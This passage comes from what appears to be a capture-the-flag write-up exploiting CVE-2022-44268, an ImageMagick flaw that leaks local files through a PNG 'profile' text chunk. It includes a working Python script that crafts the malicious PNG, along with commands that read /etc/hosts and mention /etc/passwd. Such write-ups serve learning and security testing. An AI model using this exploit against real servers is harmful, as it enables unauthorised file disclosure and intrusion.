 Sounds like Greek for you? No worries, let's understand the and exploit this vulnerability, step-by-step. If you just want a PoC, check [here](https://github.com/entr0pie/CVE-2022-44268) .[^4]

## Exploitation

### PNG, Imagemagick and Chunks

Firstly, Imagemagick tries to read and parse a PNG. This type of image can contain various chunks, which is a self-contained block of data that holds specific information within the file. It acts as a modular unit, containing different types of data such as image pixels, metadata, or textual information.

A text chunk, specifically, is a type of chunk that stores human-readable text data. In PNG, tEXt is used to embed textual information related to the image, such as descriptions, titles, author information, or copyright notices. It consists of a **keyword** that identifies the type of information and a corresponding text string that holds the actual textual content. Multiple tEXt chunks can be included in a PNG image.

Here's the deal: when handling the **profile** keyword, Imagemagick misunderstand it's value as a filename and import it to the resized file (as a raw profile) in hex. 

To exploit it, let's create a Python script to embed our chunk on the image:

```python
#!/bin/python3

from sys import argv
from png import Reader, write_chunks

if len(argv) < 2:
    print("Usage: CVE-2022-44268.py <LFI>")
    exit(1)

LFI = argv[1]

reader = Reader(filename='source.png')
chunks = list(reader.chunks())

chunk_field = (b"tEXt", f"Profile\x00{LFI}".encode())
chunks.insert(1, chunk_field)

file = open('output.png', 'wb')
write_chunks(file, chunks)
file.close()
```

Creating the `output.png`:

```shell
python3 CVE-2022-44268.py /etc/hosts
```

Send the file to the server and download the resized. Now, inspect it with `identify`:

```shell
identify -verbose 64a318dbc65d1.png
```


[^1]: Git is a software for developers to create code, registering and tracking all the changes. When used, Git creates a `.git` directory to store data about the changes. If the contents of `.git` are public, we can get the source code of the app.
[^2]: See the `FILTER_SANITIZE_STRING` section on the [PHP documentation](https://www.php.net/manual/en/filter.filters.sanitize.php). 
[^3]: Read more on the [MetabaseQ article](https://www.metabaseq.com/imagemagick-zero-days/).
[^4]: Before written my own Python script, I've used a Rust version of it. Make sure to [check it out](https://github.com/voidz0r/CVE-2022-44268). 
[^5]: To confirm if the emily was a user on the machine, we can check the `/etc/passwd` file.
[^6]: More info [here](https://lekensteyn.nl/files/pfs/pfs.txt).
[^7]: https://www.reddit.com/r/privacy/comments/9yzya4/lightshot_millions_of_screenshots_available_to/